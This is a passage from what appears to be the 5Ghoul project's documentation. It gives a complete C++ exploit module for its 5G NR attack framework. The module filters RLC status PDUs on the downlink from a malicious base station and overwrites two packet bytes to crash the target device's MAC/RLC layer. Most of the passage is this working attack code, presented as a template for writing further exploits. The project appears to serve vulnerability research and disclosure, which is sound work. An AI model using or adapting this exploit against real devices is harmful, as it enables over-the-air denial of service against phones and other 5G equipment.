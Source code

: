   

## 4.2. Example (MAC/RLC Crash C++ Script)

A full 5Ghoul Exploit script example is provided below. The sample script below ([mac_sch_mac_rlc_crash.cpp](https://github.com/asset-group/5ghoul-5g-nr-attacks/blob/master/modules/exploits/5gnr_gnb/mac_sch_mac_rlc_crash.cpp)) only defines callback functions to analyze downlink ( `tx_pre_dissection`, `tx_post_dissection`) since we only care about changing bytes of the downlink to launch an attack. However, if you want to create script that analyses the response of the UE, using the uplink callbacks (`rx_pre_dissectoin` and `rx_post_dissection`) is greatly helpful.

```c++
#include <ModulesInclude.hpp>

// Filters
wd_filter_t f1;

const char *module_name()
{
    return "ANY NAME";
}

// Setup
int setup(wd_modules_ctx_t *ctx)
{
    // Change required configuration for exploit
    ctx->config->fuzzing.global_timeout = false;
    ctx->config->fuzzing.enable_mutation = false;
    // Declare filters
    f1 = wd_filter("rlc-nr.am.dc == 0"); // Filter to find RLC Status PDU
    return 0;
}

// ---------------- Packet Handler for Downlink (TX) from gNB to UE ----------------
// Handler is called before packet decoding. You can register decoding filters here
int tx_pre_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    // Register filters. This needs to always be done before packet decoding
    wd_register_filter(ctx->wd, f1);
    return 0;
}

int tx_post_dissection(uint8_t *pkt_buf, int pkt_length, wd_modules_ctx_t *ctx)
{
    if (wd_read_filter(ctx->wd, f1)) {
        wd_log_y("Malformed MAC data sent!");
        pkt_buf[60 - 48] = 0xB5; // Modify raw packet at offset 12
        pkt_buf[61 - 48] = 0x02; // Modify raw packet at offset 13
        return 1; // Indicate that the packet payload has been mutated (i.e., changed from the original)
    }
    return 0; // Indicate that no change to the packet payload
}
```
